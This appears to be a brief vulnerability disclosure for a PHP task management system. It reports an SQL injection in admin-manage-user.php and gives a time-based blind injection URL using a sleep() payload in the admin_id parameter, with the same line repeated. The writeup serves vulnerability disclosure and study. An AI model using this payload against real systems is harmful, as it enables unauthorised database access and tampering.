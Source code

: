 # php task management system free download - SQL

# SQL injection

In the admin-manage-user.php file, it was found that \$action\_id is directly concatenated onto the SQL statement.
Construct payload.

![](image/image_m3QTisnTiZ.png)

`http://192.168.3.182/admin-manage-user.php?delete_user=123123&admin_id=(IF(1=2,sleep(2),100000)) `responded in 60122 milliseconds.

![](image/image_0cwj7R3CBj.png)

`http://192.168.3.182/admin-manage-user.php?delete_user=123123&admin_id=(IF(1=2,sleep(2),100000)) `responded in 60122 milliseconds.

![](image/image_8zNE4ArZ37.png)
